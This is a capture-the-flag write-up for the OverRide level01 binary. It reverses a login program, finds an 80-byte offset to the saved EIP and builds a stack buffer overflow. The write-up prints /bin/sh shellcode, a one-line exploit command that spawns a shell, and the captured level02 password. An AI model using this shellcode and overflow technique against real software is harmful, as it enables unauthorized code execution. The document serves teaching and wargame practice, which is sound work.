


# Level 01 Buffer Overflow

## Overview
The binary is a basic login program that prompts for a `username` and `password`. It contains two `fgets()` functions with buffers of size `256` and `100`, suggesting potential **buffer overflow** vulnerabilities that could lead to *flow redirection* and *shellcode* execution.

### Main Function
```bash
./resources/r2.sh level01
[...]
[0x080483b0]> aaa
[0x080484d0]> s main
[0x080484d0]> V
[0x080484d0]> V
```


### Verify Username
The username comparison involves checking the first 7 characters against `"dat_wil"`, preventing a buffer overflow attack on this `fgets()` function.
```bash
[...]
[0x080484d0]> s sym.verify_user_name
[0x08048464]> V
[0x08048464]> V
```


### `fgets` Buffer Sizes
Using `ltrace`, the buffer sizes of the 2 `fgets()` are 256 and 100 characters, on the addresses `0x0804a040` and `0xffffd6ec` respectively.
We can try to find out if the stack frame size available after the second `fgets()` call, is inside the size of the buffer, to see if we can overwrite the `EIP` address to redirect the flow.
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                               = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

### Finding EIP Offset
#### `gdb` Disassembled Main
```gdb
(gdb) disassemble main 
Dump of assembler code for function main:
   [...]
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>          # fgets username
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>   # verify username
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>          # fgets password
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>   # verify password
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret    
End of assembler dump.
```
#### Breakpoint after Password `fgets`
```
(gdb) break *0x08048579                                     # break after fgets password
Breakpoint 1 at 0x8048579

Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Hello this is the buffer :)

Breakpoint 1, 0x08048579 in main ()
```
#### EIP - Buffer Address
To finally find the `offset`, we need to find the difference between our `Buffer Address` and the `EIP` (address of the next instruction to be executed).
```
(gdb) x/s $eax
0xffffd6cc:	 "Hello this is the buffer :)\n"
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

$$
\begin{aligned}
\text{EIP} &= \texttt{0xffffd71c} \\
\text{Buffer Address} &= \texttt{0xffffd6cc} \\
\texttt{0xffffd71c} - \texttt{0xffffd6cc} &= 80 \\
\text{Offset} &= 80
\end{aligned}
$$

## Resolution

Information recolected:
- User inputs
    - Username `fgets` input.
        - **Buffer size** of 256.
        - **Buffer address** is `0x0804a040`.
        - `memcmp` of size 7.
    - Password `fgets` input.
        - **Buffer size** of 100.
        - **Buffer address** is `0xffffd6ec`.
        - The `EIP` is reachable from this **buffer**.

This is a very convenient scenario to inject *shellcode* inside the unused section of the first **buffer**, and redirect the flow changing the `EIP` to point to our *shellcode* address, using the second **buffer**.

## Payload

$$
\begin{aligned}
\text{Buffer1.address + 7} &= \text{"\textbackslash x47\textbackslash xa0\textbackslash x04\textbackslash x08"} \\
\text{Buffer1} &= \text{"dat\_wil"} + \text{Shellcode} \\
\text{Buffer2} &= \text{80 character padding} + \text{Buffer1.address + 7}
\end{aligned}
$$

### Shellcode
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

## Result

This one line command is able to run a shell as a level02 user.
```bash
cat <(printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" | tr ' ' 'a') - | ./level01
```

## Flag

```bash
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
